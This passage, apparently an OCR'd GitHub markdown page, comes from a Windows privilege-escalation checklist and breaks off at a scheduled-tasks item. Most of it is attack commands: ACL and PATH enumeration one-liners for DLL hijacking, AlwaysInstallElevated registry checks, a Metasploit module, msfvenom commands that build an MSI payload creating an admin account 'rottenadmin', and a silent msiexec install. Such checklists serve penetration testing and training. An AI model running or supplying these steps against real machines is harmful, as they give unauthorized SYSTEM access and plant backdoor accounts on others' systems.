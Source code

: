 		# using Powershell
		Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

		Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
		```
- [ ] PATH DLL Hijacking
	```powershell
	# having write permissions inside a folder present ON PATH could bring to DLL hijacking
	for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
	```
- [ ] AlwaysInstallElevated set in Registry
	```powershell
	# if both are enabled (set to 0x1), it's possible to execute
	# any .msi as NT AUTHORITY\SYSTEM
	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	
	# check with msf
	exploit/windows/local/always_install_elevated
	
	# generate payload with msfvenom
	# no uac format
	msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi
	# using the msiexec the uac wont be prompted
	msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi
	
	# install .msi
	msiexec /quiet /qn /i C:\Users\Homer.NUCLEAR\Downloads\donuts.msi
	```
- [ ] Scheduled tasks
	```powershell
	# using schtasks
	schtasks /query /fo LIST /v
	# filtering the output
	schtasks /query /fo LIST /v | findstr /v "\Microsoft"
	